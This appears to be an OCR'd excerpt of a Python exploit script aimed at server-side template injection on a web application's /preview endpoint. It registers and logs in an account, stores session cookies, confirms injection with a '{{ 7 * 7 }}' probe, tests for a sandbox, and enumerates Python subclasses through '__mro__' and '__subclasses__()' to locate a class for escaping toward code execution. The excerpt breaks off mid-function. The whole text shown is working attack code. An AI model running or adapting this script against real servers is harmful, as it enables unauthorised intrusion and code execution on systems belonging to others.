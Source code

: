 ```python
    payload = {"username": USERNAME, "password": PASSWORD}
    response = session.post(url, json=payload)
    if response.status_code == 201:
        print("[+] Registration successful")
    else:
        print(f"[-] Registration failed: {response.text}")
        exit(1)

def login():
    url = f"{TARGET}/login"
    payload = {"username": USERNAME, "password": PASSWORD}
    response = session.post(url, json=payload)
    if response.status_code == 200:
        print("[+] Login successful")
        with open(COOKIES_FILE, "w") as f:
            f.write(str(session.cookies.get_dict()))
    else:
        print(f"[-] Login failed: {response.text}")
        exit(1)

def test_ssti():
    url = f"{TARGET}/preview"
    payload = {"template": "{{ 7 * 7 }}"}
    response = session.post(url, json=payload)
    if response.status_code == 200 and response.json().get("preview") == "49":
        print("[+] SSTI confirmed working")
    else:
        print(f"[-] SSTI test failed: {response.text}")
        exit(1)

def test_sandbox():
    url = f"{TARGET}/preview"
    tests = [
        {"template": "{{ username }}", "expected": USERNAME},
        {"template": "{{ username.__class__ }}", "expected": "<class 'str'>"},
        {"template": "{{ request }}", "expected": "Request"},
    ]
    sandboxed = False
    for test in tests:
        response = session.post(url, json=test)  # Fixed typo: 'payload' -> 'test'
        if response.status_code == 200:
            result = response.json().get("preview", "")
            if test["expected"] in result:
                print(f"[+] Sandbox test passed: {test['template']} -> {result}")
            else:
                print(f"[-] Sandbox test failed: {test['template']} returned {result}")
                sandboxed = True
        else:
            print(f"[-] Sandbox test error: {response.text}")
            sandboxed = True
    return sandboxed

def find_subclass_index():
    url = f"{TARGET}/preview"
    payload = {"template": "{{ ''.__class__.__mro__[1].__subclasses__() }}"}
    response = session.post(url, json=payload)
    if response.status_code != 200:
        print(f"[-] Failed to enumerate subclasses: {response.text}")
        return 35  # Default fallback
    subclasses = response.json().get("preview", "")
    subclass_list = re.findall(r"<class '([^']+)'>", subclasses)
    for i, cls in enumerate(subclass_list):
        if cls in ["function", "warnings.catch_warnings"]:
```